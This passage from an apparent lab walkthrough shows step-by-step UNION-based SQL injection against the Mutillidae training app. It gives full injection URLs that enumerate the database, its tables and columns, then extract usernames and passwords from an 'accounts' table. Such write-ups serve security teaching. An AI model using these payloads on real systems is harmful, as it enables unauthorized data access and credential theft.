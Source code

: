![image](https://github.com/lokeshnarayanan/sqlinjection/assets/119393019/c41d277b-b867-43dd-9c2c-cde8c76d5aeb)


Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/lokeshnarayanan/sqlinjection/assets/119393019/b85dd101-2efe-482d-b920-544cbbba99d5)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/lokeshnarayanan/sqlinjection/assets/119393019/3f8fa852-6363-4948-8b66-0529384412f6)

The url once executed will retrieve table names from the “owasp 10” database.
## Extracting sensitive data such as passwords:
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/lokeshnarayanan/sqlinjection/assets/119393019/962a4df0-754b-45e0-b95c-6d28a288e602)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/lokeshnarayanan/sqlinjection/assets/119393019/3ddc6b79-2cc3-42d8-900c-02bad6901472)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
